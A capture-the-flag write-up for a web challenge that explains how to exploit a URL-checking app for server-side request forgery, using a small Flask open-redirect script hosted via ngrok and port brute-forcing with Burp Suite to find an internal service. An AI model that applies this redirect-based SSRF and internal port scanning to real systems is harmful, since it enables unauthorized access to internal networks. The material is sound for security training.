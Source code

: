 Super Website Verificator 3000 Challenge Writeup

Step 1: Analyze the App

First, we analyze the provided web application to understand its functionality. We observe that the application check remote websites provided by the user. We have to find a way to leverage this into SSRF to an internal service.

Step 2: Host the Python Script

We use the provided redirect.py script to host a redirect service. This service will help us brute force the internal port by redirecting requests to different ports. This script should be hosted as a public website (you can use ngrok).

```python
from flask import Flask, request, redirect

app = Flask(__name__)

@app.route('/')

def redirect_to_location():

    location = request.args.get('location')

    if location:

        return redirect(location)

    return "No location provided", 400

if __name__ == '__main__':

    app.run('0.0.0.0', port=4444)
```

Step 3: Brute Force the Port

We need to brute force the port to find the internal server. We can use Burp Suite to automate the process. Port 600 should be different in response size than the others.
